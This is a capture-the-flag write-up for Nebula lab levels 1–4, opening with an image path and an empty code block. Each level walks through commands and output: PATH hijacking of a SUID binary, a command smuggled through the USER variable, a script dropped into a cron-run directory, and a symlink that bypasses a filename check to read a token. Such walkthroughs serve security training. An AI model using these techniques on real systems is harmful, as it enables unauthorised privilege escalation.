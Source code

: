 ```c
```
So we build a custom executable, and run the vulnerable binary with `PATH` environment variable modified:. 
Create test.c file with the following content:
```c
int main(int argc, char **argv, char **envp)
{
  system("/bin/getflag");
}
```

Compile, run an get the flag:
```
level01@nebula:~$ gcc -o echo test.c
level01@nebula:~$ PATH=/home/level01 /home/flag01/flag01
You have successfully executed getflag on a target account
```

## Level 2
Another source code is presented for a vulnerable program that may allow arbitrary programs to be executed. The _USER_ environment variable is used as input for the echo command, but unsanitized:
```c
[..]
asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
```

So we could use an injection trick. We'll pass something like **`"levelx; /bin/getflag"`** :
```bash
level02@nebula:~$ USER="levelx; /bin/getflag" /home/flag02/flag02
about to call system("/bin/echo levelx; /bin/getflag is cool")
levelx
You have successfully executed getflag on a target account
```

## Level 3
We're informed that _there is a crontab that is called every couple of minutes_.  The script called is *__/home/flag03/writable.sh__*. This script parses the _`writable.d`_ directory, and tests all files if they are executable (and executes them! - _bash -x) ). So we'll build a small script, place it in the writable directory and wait.for the crontab to execute it:
```bash
level03@nebula:~$ vim /home/flag03/writable.d/scr
#!/bin/bash
getflag > /tmp/out
level03@nebula:~$ chmod +x /home/flag03/writable.d/scr
level03@nebula:~$ cat /tmp/out
You have successfully executed getflag on a target account
```

## Level 4
The goal here is to read the *__/home/flag04/token__* file from the SUID binary _/home/flag04/flag04_. But there is a check that prevents opening any file that has the string "token" in its name. A symbolic link solves this:
```bash
level04@nebula:~$ ln -s /home/flag04/token /tmp/tk
level04@nebula:~$ /home/flag04/flag04 /tmp/tk
06508b5e-8909-4f38-b630-fdb148a848a2
This token can then be used to log in as flag04 user.
```
